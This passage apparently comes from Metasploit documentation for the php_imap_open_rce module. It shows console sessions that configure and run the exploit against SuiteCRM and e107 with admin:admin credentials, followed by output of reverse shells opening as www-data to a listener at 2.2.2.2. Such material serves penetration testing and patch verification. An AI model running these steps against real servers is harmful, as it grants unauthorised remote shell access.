   ```
  [+] Sending Payload with Final Token: ec653c8bfc09754fc63aaa94101911dc
  [*] IMAP server change left on server, manual revert required.
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:41964) at 2018-11-20 18:29:28 -0500
  
  uname -a
  Linux ubuntu1604 4.4.0-138-generic #164-Ubuntu SMP Tue Oct 2 17:16:02 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

### SuiteCRM 7.8.23 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (suitecrm.rb)> use exploit/linux/http/php_imap_open_rce
  resource (suitecrm.rb)> set target 1
  target => 1
  resource (suitecrm.rb)> set TARGETURI /
  TARGETURI => /
  resource (suitecrm.rb)> set USERNAME admin
  USERNAME => admin
  resource (suitecrm.rb)> set PASSWORD admin
  PASSWORD => admin
  resource (suitecrm.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (suitecrm.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (suitecrm.rb)> set verbose true
  verbose => true
  resource (suitecrm.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Loading login page
  [*] Logging in as admin:admin
  [+] Login Success
  [*] Loading InboundEmail page
  [+] Sending payload with group_id f047031d-1697-3d0d-bd39-5bf499e5470a
  [*] IMAP server config left on server, manual removal required.
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:32806) at 2018-11-20 18:31:40 -0500
  
  uname -a 
  Linux ubuntu1604 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

### e107 2.1.9 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (e107.rb)> use exploit/linux/http/php_imap_open_rce
  resource (e107.rb)> set target 2
  target => 2
  resource (e107.rb)> set TARGETURI /
  TARGETURI => /
  resource (e107.rb)> set USERNAME admin
  USERNAME => admin
  resource (e107.rb)> set PASSWORD admin
  PASSWORD => admin
  resource (e107.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (e107.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (e107.rb)> set verbose true
  verbose => true
  ```